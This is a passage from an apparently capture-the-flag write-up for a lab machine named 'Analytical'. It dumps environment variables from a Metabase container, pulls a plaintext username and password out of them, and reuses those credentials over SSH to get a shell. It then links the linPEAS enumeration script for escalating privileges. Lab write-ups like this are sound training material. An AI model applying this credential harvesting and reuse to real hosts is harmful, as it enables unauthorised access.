 ```bash
env
```

```bash
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=7d55f5035676
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=5
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```

Note :

```bash
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Let's try this credential over the SSH :

```bash
ssh metalytics@analytical.htb
```

And we have a shell !!

Just a previously, we could run linpeas to enumerate this host.

[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

We can use this script version here : [https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/linpeas_linux_amd64](https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/linpeas_linux_amd64)
